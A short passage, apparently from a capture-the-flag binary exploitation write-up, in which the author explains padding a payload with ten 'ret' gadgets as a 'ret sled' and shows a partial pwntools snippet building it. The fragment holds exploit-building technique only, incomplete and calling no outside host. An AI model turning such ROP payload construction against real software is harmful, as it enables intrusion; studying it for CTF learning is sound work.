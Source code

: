 <figure><img src="../../.gitbook/assets/image (228).png" alt="" width="375"><figcaption></figcaption></figure>



to accomodate for it, at the start of the payload I sprayed a bunch of `ret` gadget to act as a ret slep.

```python
payload += flat({
        0: [
            p64(RET) * 10, # ret slep, some brute needed, just upload the same generated payload again
            # ... snippet           
        ]
    })

```
